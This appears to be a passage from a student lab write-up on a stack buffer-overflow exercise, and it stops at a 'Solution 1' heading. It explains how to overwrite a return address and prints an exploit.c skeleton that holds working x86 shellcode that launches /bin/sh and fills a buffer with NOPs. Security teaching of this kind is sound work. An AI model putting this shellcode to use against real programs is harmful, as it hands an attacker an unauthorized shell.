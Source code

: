 So now we have a bomb, next we need to inject our dirty code into the bomb so that it will be triggered automatically.

The **core idea** is:

1. inject dirty code into stack.
2. find the position in which the return address is stored.
3. modify the value in the position so that the next instruction it supposed to execute will be leading to our injected dirty code.

To inject the dirty code, we are offered a program again:

```c
/*exploit.c*/
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0"         /*Line 1:  xorl    %eax,%eax*/
    "\x50"             /*Line 2:  pushl   %eax*/
    "\x68""//sh"       /*Line 3:  pushl   $0x68732f2f*/
    "\x68""/bin"       /*Line 4:  pushl   $0x6e69622f*/
    "\x89\xe3"         /*Line 5:  movl    %esp,%ebx*/
    "\x50"             /*Line 6:  pushl   %eax*/
    "\x53"             /*Line 7:  pushl   %ebx*/
    "\x89\xe1"         /*Line 8:  movl    %esp,%ecx*/
    "\x99"             /*Line 9:  cdq*/
    "\xb0\x0b"         /*Line 10: movb    $0x0b,%al*/
    "\xcd\x80"         /*Line 11: int     $0x80*/
    ;
void main(int argc, char**argv){
    char buffer[517];
    FILE*badfile;
    /*Initialize buffer with 0x90 (NOP instruction)*/
    memset(&buffer, 0x90, 517);
    /*You need to fill the buffer with appropriate contents here*/
    /*... Put your code here ...*/
    /*Save the contents to the file "badfile"*/
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

It's easy to understand what the program do: generate a `badfile` for `stack` program we have compiled before to use as its input file. And this `exploit.c` program will do some interesting things in `badfile` to make it a read 'bad file'.

**What we need do is complete the `exploit.c` file and let it generate 'correct'(i mean real bad) file so that we can trig the bomb.**

### Solution 1
